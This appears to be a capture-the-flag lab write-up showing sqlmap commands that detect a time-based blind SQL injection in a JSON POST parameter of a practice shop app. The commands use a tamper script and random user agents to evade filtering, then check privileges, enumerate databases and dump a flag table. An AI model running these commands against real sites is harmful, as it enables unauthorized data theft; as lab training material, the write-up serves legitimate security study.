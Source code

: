 ![sqlmap-skills-assessment-detect](/images/sqlmap-skills-assessment-detect.png)  

```
sqlmap -r mimishop-action.req --batch -p 'id' --random-agent --tamper=between -dbms MySQL --flush-session
```  

>SQLMAP discover `Parameter: JSON id ((custom) POST) Type: time-based blind Title: MySQL >= 5.0.12 AND time-based blind`.  
>Check permissions is DBA

```
sqlmap -r mimishop-action.req --batch -p 'id' --random-agent --tamper=between -dbms MySQL --is-dba
```  

>SQLMAP discover `current user retrieved: admin@localhost - current user is DBA: False`.  
>Check database schema enumeration

```
sqlmap -r mimishop-action.req --batch -p 'id' --random-agent --tamper=between -dbms MySQL --schema
```  

>SQLMAP discover `retrieved: databases: 'information_schema, production'`.
>Dump Content for table `final_flag`

```
sqlmap -r mimishop-action.req --batch -p 'id' --random-agent --tamper=between -dbms MySQL -D production -T final_flag --dump
```  

>SQLMAP discover `HTB{flag}`.  
